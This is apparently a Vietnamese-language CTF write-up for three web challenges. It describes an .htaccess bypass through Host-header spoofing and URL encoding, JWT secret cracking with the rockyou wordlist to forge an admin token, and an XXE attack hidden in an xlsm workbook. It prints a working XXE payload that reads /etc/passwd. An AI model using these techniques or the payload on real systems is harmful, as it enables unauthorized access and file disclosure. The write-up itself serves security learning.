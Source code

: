 ## helicoptering

```
Helicoptering
The two parts of the flag are available at the locations below:

part one
part two
Unfortunately, they are both protected by an .htaccess file:

one/.htaccess
RewriteEngine On
RewriteCond %{HTTP_HOST} !^localhost$
RewriteRule ".*" "-" [F]
    
two/.htaccess
RewriteEngine On
RewriteCond %{THE_REQUEST} flag
RewriteRule ".*" "-" [F]
    
Your job is to bypass these restrictions and view the flag files anyway. Good luck!
```

Đọc 2 file flag trong 2 folder one và two. vấn đề là mỗi folder có 1 file .htaccess. Bypass one bằng cách intercept qua burp và sửa header Host thành localhost. Bypass 2 bằng cách urlencode từ flag (%66lag)

## Treasure Hunt

 ![Treasurehunt](Screenshot 2022-09-28 094235.png)
 1 bài dùng jwt token. cơ bản là login vào với token của admin => flag nằm ở phần treasure.
 dùng hashcode + wordlist rockyou để crack secretkey => onepiece. login và lấy flag.

## dyslexxec

source code: dyslexxec.tar.gz 
 Bài này XXE. flag nằm trong file /etc/passwd. lỗi code ở đoạn 

 ```
 internalNode = root.find(".//{http://schemas.microsoft.com/office/spreadsheetml/2010/11/ac}absPath")
        if internalNode != None:
            prop = {
                "Fieldname":"absPath",
                "Attribute":internalNode.attrib["url"],
                "Value":internalNode.text
            }
        return prop

 ```

 đổi đuôi file của file xlsm sang zip, unzip và tìm absPart. absPart nằm trong workbook.xml. chèn mã XXE vào file này, nén zip lại và đổi lại đuôi file.

 payload 
 ```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" mc:Ignorable="x15" xmlns:x15="http://schemas.microsoft.com/office/spreadsheetml/2010/11/main"><fileVersion appName="xl" lastEdited="7" lowestEdited="7" rupBuild="16925"/><workbookPr defaultThemeVersion="164011"/><mc:AlternateContent xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006"><mc:Choice Requires="x15"><x15ac:absPath url="C:\Users\ulikma\Downloads\" xmlns:x15ac="http://schemas.microsoft.com/office/spreadsheetml/2010/11/ac">&xxe;</x15ac:absPath></mc:Choice></mc:AlternateContent><bookViews><workbookView xWindow="0" yWindow="0" windowWidth="19200" windowHeight="6950"/></bookViews><sheets><sheet name="Sheet1" sheetId="1" r:id="rId1"/></sheets><calcPr calcId="171027"/><extLst><ext uri="{140A7094-0E35-4892-8432-C4D2E57EDEB5}" xmlns:x15="http://schemas.microsoft.com/office/spreadsheetml/2010/11/main"><x15:workbookPr chartTrackingRefBase="1"/></ext></extLst></workbook>
 ```